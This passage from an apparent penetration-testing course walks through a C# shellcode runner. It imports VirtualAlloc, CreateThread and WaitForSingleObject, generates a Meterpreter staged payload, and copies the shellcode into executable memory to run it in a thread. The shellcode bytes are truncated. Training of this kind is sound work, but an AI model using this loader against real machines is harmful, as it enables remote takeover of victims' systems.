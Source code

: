 Now that we've developed our basic framework, we can reuse the shellcode runner technique from both VBA and PowerShell and combine _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ to execute shellcode in memory.

The first step is to use DllImport to import the three Win32 APIs and configure the appropriate argument data types. This is unchanged from our experience with _Add-Type_ and PowerShell. The imports are shown below:

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

> Listing 30 - Importing Win32 APIs for shellcode runner

Next, we need to generate our shellcode. Keep in mind that on a 64-bit Windows operating system, Jscript will execute in a 64-bit context by default so we have to generate a 64-bit Meterpreter staged payload in _csharp_ format. While we're at it, we'll set up our multi/handler with the same payload.

Calling the APIs from C# is similar to our experience with PowerShell. However, we do not have to specify .NET namespaces like _\[System.Runtime.InteropServices.Marshal]_ or the runtime compiled classes to invoke them.

In Listing 31, the calls to the three Win32 APIs along with the managed to unmanaged memory copy are present, and constitute the last part of the shellcode runner. This should appear very similar to what we did earlier.

Let's discuss a few details of this code, starting with the variable declarations. The first, _buf_, is our shellcode. Next is our _size_ variable that stores the size of our _buf_ variable. As mentioned earlier, we use _Marshal.Copy_, but don't have to specify the .NET namespace of _\[System.Runtime.InteropServices.Marshal]_.

```
byte[] buf = new byte[626] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8...

int size = buf.Length;

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(buf, 0, addr, size);

IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);
```
